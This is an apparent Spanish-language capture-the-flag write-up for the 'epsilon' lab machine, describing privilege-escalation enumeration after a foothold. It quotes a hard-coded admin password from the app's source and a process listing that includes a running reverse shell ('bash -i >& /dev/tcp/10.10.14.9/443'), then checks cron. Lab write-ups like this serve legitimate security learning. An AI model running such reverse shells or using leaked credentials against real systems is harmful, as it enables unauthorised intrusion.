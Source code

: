![](assets/2022-06-30-19-36-39.png)

Ya tenemos la flag del usuario, ahora vamos a escalar privilegios.

# una vez dentro 

"admin" and request.form['password']=="4d_09@fhgRTdws2"

También una vez hemos entrado tenemos un usuario **tom**

Ahora como siempre seguimos digamos un checklist de cosas que mirar.

Muchas no tengo permiso.

He probado ps -faux y veo que root hace algo con cron cuando he entrado
```bash
root         964  0.0  0.0   6812  3044 ?        Ss   06:50   0:00 /usr/sbin/cron -f
root         982  0.0  0.0   8352  3384 ?        S    06:50   0:00  \_ /usr/sbin/CRON -f
root        1022  0.0  0.0   2608   608 ?        Ss   06:50   0:00      \_ /bin/sh -c cd /var/www/app;sudo -u tom python3 app.py
root        1026  0.0  0.1   9416  4624 ?        S    06:50   0:00          \_ sudo -u tom python3 app.py
tom         1039  2.1  0.9 1665100 37792 ?       Sl   06:50  14:16              \_ python3 app.py
tom       452052  0.0  0.0   2608   608 ?        S    17:34   0:00                  \_ /bin/sh -c bash -c "bash -i >& /dev/tcp/10.10.14.9/443 0>&1"
tom       452053  0.0  0.0   6892  3312 ?        S    17:34   0:00                      \_ bash -c bash -i >& /dev/tcp/10.10.14.9/443 0>&1
tom       452054  0.0  0.1   8180  5000 ?        S    17:34   0:00                          \_ bash -i
tom       452061  0.0  0.0   5604  2408 ?        S    17:34   0:00                              \_ script /dev/null -c bash
tom       452062  0.0  0.1   8300  5360 pts/0    Ss   17:34   0:00                                  \_ bash
tom       452368  0.0  0.0   9488  3916 pts/0    R+   17:46   0:00                                      \_ ps -faux
```

En principio no hay ningun crontab que podamos ver, tom no tiene y root no tenemos privilegios... vamos a seguir analizando

```bash
usage:  crontab [-u user] file
        crontab [ -u user ] [ -i ] { -e | -l | -r }
                (default operation is replace, per 1003.2)
        -e      (edit user's crontab)
        -l      (list user's crontab)
        -r      (delete user's crontab)
        -i      (prompt before deleting user's crontab)
tom@epsilon:/var/www/app/templates$ crontab -u root
must be privileged to use -u
tom@epsilon:/var/www/app/templates$ 
```
